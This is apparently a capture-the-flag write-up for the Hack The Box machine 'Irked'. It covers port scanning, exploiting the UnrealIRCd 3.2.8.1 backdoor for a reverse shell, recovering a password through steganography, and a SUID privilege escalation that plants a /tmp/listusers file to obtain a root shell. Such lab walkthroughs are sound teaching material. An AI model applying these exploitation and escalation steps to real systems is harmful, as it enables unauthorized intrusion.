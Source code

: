 # Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	
2. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>IRC</li>
	<li>Stego</li>
	<li>SUID privilege escalation</li>
</ul>
</details>

### Enumeration
**IP Address** 10.10.10.117
#### Nmap
My first step, as in any other machine, is running an Nmap scan.
I'm used to running in first place *Nmap -p- {ip}* so it does a scan through all 65535 ports of the machine. After this scan, I usually run a more specific scan through the open ports. In this case, the second scan showed me the following results:
```shell
sudo nmap -sC -sV -O -p 22,80,111,8067,37395,65534 10.10.10.117
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-15 12:19 EDT
Nmap scan report for 10.10.10.117
Host is up (0.051s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37395/tcp   status
|   100024  1          39240/udp6  status
|   100024  1          43552/udp   status
|_  100024  1          50881/tcp6  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
37395/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.8 (95%), Linux 4.9 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.60 seconds
```

While the *nmap* was working, I tried to do a further investigation at the 80 port. 
In this port we can observe a web page with only a picture. After performing some *fuzzing* with *gobuster* and *ffuf*, I found nothing.

![[pictures/irked-01.png]]  
  
  
Here I had to choose between going further with te RCP or with the IRC.
I decided to go with the RCP, so I run *rcpinfo*, obtaining the following:

```shell
 rpcinfo irked.htb
   program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100024    1    udp       0.0.0.0.170.32         status     107
    100024    1    tcp       0.0.0.0.146.19         status     107
    100024    1    udp6      ::.153.72              status     107
    100024    1    tcp6      ::.198.193             status     107

```

As I didn´t see anything to go on, I decided to go back to the IRC.
First of all, when I know a technology that is used in the server, such as UnrealIRCd, I like to search it with *searchsploit*, so I can get an idea about the vulnerabilities this technology has.
![[pictures/irked-02.png]]

As we can see, there is a possible backdoor via metasploit. However, we don´t know the version yet. In order to know the version, I try to connect with the IRC server.  To do so, I used set of tools called [irssi](https://irssi.org/)
```shell
irssi -c 10.10.10.117 --port 8067
```
![[pictures/irked-03.png]]

Once I connected to the server, I was able to see the UnreallRCd version. As expected, it was 3.2.8.1, so we know it is vulnerable to the backdoor that we saw before. However, in order to avoid metasploit, I searched for another exploit, finding this [one](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor). It gives the attacker several options for the payload. I ended up chosing *python*.

Before running the exploit, it is necessary to change the exploit in order to add your own IP and port (attacker's machine) and, of course, it is mandatory to start a listener.

This is the command to run the exploit:

```shell 
python3 exploit.py 10.10.10.117 8067 -payload python
```

We can finally obtain a shell as the user *ircd*

![[pictures/irked-04.png]]

After listing the directory *home*, it is possible to discover another user, *djmardov*. Running the following command, it is also possible to find the user flag. 


```shell
ircd@irked:/tmp$ locate user.txt
locate user.txt
/home/djmardov/Documents/user.txt

ircd@irked:/tmp$ ls -lrt /home/djmardov/Documents
ls -lrt /home/djmardov/Documents
total 4
-rw------- 1 djmardov djmardov 33 May 15  2018 user.txt
```

Nevertheless, the user *ircd* does not have permission to read it, so now we need to get access as the user *djmardov*.

After running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we find a rare hidden file in *djmardov*'s directory:

![[pictures/irked-05.png]]

Weird backup files are always interesting and should be taken into account.
In this case, it is possible to read this file:
```shell
ircd@irked:/tmp$ strings /home/djmardov/Documents/.backup
strings /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

So, we have a password righ now and a hint: *Super elite steg backup pw*.
The first thing I try was to access to the machine as *djmardov* with this password by *su djmardov* and by ssh. It wasn't possible, so after reading again the hint, I recalled that we had a web page with only one picture. It was time for stego. 
In order to download the picture in the web and to extract the image, I used the following commands:

![[pictures/irked-06.png]]

With this password, it is possible to establish an ssh session as the user *djmardov* and retrieve the content in *user.txt*. Now it's time for privesc:

### Privesc

After running again *linpeas*, I was not sure were to go on. I usually have 3 tools for privesc:
- Linpeas/Linenum
- [suid3num](https://github.com/Anon-Exploiter/SUID3NUM)
- [pspy](https://github.com/DominicBreuker/pspy)


I know suid3num has a similar output to Linpeas, but for me it's easier to analyze the SUID output with this tool. On the other side, pspy is the tool for the moment in which I don´t know what else to do, so I can see if there's any process running I haven´t seen before.
In case it's the first time you hear about SUID privilege escalation, I recommend you to read this [article](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

Following with irked, suid3num provides us with an interesting output:  
  
  
![[pictures/irked-07.png]]

After running *viewuser*, we can see an strange error message:

![[pictures/irked-08.png]]


It seems that the binary is looking for a file called *listusers* and located at */tmp*
As there is no such file in */tmp* directory, I created one file with the command *id* and run again the binary *viewuser*:

![[pictures/irked-09.png]]

As it can be seen, the error message has changed. This is because the user *root* doesn´t have execution permissions. To get this, it is necessary to run the command:
```
chmod a+x listusers
```
Once that's done, we run again the binary *viewuser*:

![[pictures/irked-10.png]]

As we expected, the binary executes the command. To obtain a shell as root, the only thing left to do is to change the file *listusers* from *id* to */bin/bash*:

![[pictures/irked-11.png]]

Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 